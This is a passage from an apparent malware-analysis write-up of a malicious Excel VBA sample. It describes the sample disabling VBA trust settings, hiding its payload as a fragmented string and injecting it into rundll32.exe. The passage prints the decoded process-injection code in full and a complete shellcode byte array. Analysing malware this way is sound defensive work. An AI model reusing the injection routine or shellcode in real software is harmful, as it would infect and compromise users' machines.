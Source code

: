 The logic of the new script is:

- first disable the "Trust access for VBA" in Excel
- create *another* Excel workbook
- inject some payload
- disable the alerts
- run the injected code
- close Excel while keeping the workbook running
- restore the Windows registry

And the new payload is another weird string:

```
"Private "&"Type PRO"&"CESS_INF"&"ORMATION"&Chr(10)&"    hPro"&"cess As "&"Long"&Chr(10)&"    hThr"&"ead As L"&"ong"&Chr(10)...
```

It's just a fragmented string with characters expressed as ASCII numbers.

The syntax is very close to a Python string, with a few adjustements we get
the full picture.

It is a VBA script which performs a PE injection on "rundll32.exe":

```shell
If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
```

## Debugging the shellcode

"rundll32.exe" is meant to execute the following shellcode:

```vba
myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
```
